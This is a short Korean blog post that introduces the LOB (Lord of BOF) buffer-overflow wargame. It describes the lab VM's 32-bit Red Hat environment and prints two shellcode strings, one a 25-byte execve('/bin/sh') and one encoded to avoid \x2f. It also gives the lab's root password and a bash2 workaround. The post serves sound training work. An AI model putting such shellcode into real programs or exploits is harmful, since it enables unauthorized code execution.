 ```yaml
---
layout: posts
title: "LOB Intro"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- WarGame
- WriteUp
- Pwnable
comments: true
share: true
---
```


BOF의 OS의 종류와 버전은 LOB의 VM을 통해 Red Hat Linux 6.2라는 것을 알 수 있으며 리눅스 환경이므로 ELF 파일구조를 사용함과 어셈블리어가 at&t 문법임을 유추해 낼 수 있다. 그리고 아래와 같이 i686 아키텍처이므로 32bit 메모리를 사용함을 알 수 있다.

![arch]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-Intro/0.png)


LOB 풀이에 사용한 쉘코드는 다음과 같다.

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```

25bytes shellcode(execve(“/bin/sh”) 사용)

```
\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6
```

/x2f가 없는 shellcode


그리고 LOB의 default shell(bash)의 버전이 낮아 /xff의 입력을 /x00으로 받아들이는 오류가 있으므로 bash2를 사용하도록 한다. root 권한으로 이를 한꺼번에 바꾸도록 한다. root의 패스워드는 hackerschoolbof이다. root로 로그인 후 /etc/passwd를 열어 bash를 bash2로 모두 치환해준다.

![bash2]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-Intro/1.png)


다음은 C언어의 stack frame structure이다.


![[memory map of a typical C ELF executable on x86]]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-Intro/2.png)
